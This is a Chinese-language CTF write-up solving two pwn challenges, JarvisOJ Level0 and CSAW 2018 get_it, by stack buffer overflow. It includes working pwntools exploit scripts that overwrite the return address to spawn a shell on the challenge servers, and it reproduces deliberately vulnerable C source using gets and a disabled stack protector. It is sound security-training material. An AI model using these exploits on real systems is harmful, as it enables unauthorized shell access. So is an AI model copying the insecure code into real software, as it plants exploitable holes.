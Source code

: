 # JarvisOJ-PWN-Level0

## 0x01 文件查看

```shell
file level0
```


检查之后发现文件是64位的elf程序

```shell
checksec level0
```



开了NX保护，可以防止栈上的数据运行，不过该题不需要运行栈上的shellcode，因为程序自带了shell函数

把程序仍到ida里面，按F5查看


查看vulnerable_function函数


程序定义了0x80长度的buf，但是read读取了0x200的长度，典型的缓冲区溢出

除此之外还有一个calllsystem函数，是程序自带的shell


这样的利用原理就是将通过溢出的信息将ret的地址复写成callsystem的地址


callsystem的地址是0000000000400596

payload的构造,因为是64位程序，所以ebp的长度是0x8
```python
callsystem_addr = 0x0000000000400596 
payload = "A"*(0x80+0x8)+p64(callsystem_addr)
```

最终程序就是
```
from pwn import *

conn = remote("pwn2.jarvisoj.com", 9881)

callsystem_addr = 0x0000000000400596

payload = "A"*(0x80+0x8)+p64(callsystem_addr)

conn.send(payload)

conn.interactive()
```



CSAW 2018 有一道类似的题目 get_it
先进行常规检查
![](README/4DF02E68-4C6B-4BA1-8E72-E69B771A655E.png)
64位程序
![](README/0536264C-B016-4921-8C6F-FA7F80E88E0A.png)
开了NX禁止buf上的代码运行
拖到IDA里面按F5运行
![](README/4140139C-2086-4CE1-852D-2A595AC4B9C1.png)

存在gets函数，从代码上看，定义的buf大小是0x20还要再加上ebp的0x8就是返回地址，
函数里面有give_shell的函数
![](README/4F95DF8E-960C-4978-BB89-AC0CF558ED7A.png)
地址是0x00000000004005B6

最后的代码就是
```python
from pwn import *

conn = remote('pwn.chal.csaw.io',9001)
conn.recvline()
payload = "a"*(0x20+0x8)+p64(0x00000000004005B6)

conn.send(payload)
conn.interactive()

```


![](README/6A477762-22E6-4EE8-A03E-45020337E457.png)




顺便下载了他的Dockerfile环境

Dockerille 
```shell
FROM ubuntu:16.04
MAINTAINER Sai Vegasena

#installation
RUN apt-get update && apt-get install -y \
    apt-utils \
    build-essential \
    socat

#user
WORKDIR /app
ADD . /app
RUN chmod -R 700 /app

EXPOSE 1437

ENTRYPOINT ["socat", "TCP-LISTEN:1437,reuseaddr,fork","EXEC:/app/run.sh"]
```

run.sh
```
#!/bin/bash

cat art.txt && ./get_it
```

art.txt

![](README/310F4346-58A7-48B3-A2D2-EF849AB8A347.png)
get_it.c
```
#include <stdio.h>
#include <stdlib.h>

void give_shell(){
    system("/bin/bash");
}

int main(int argc, char ** argv){
    char buf[20];
    puts("Do you gets it??");
    gets(buf);
}
```

Makefile

```shell
build:
    gcc get_it.c -o get_it -fno-stack-protector
```

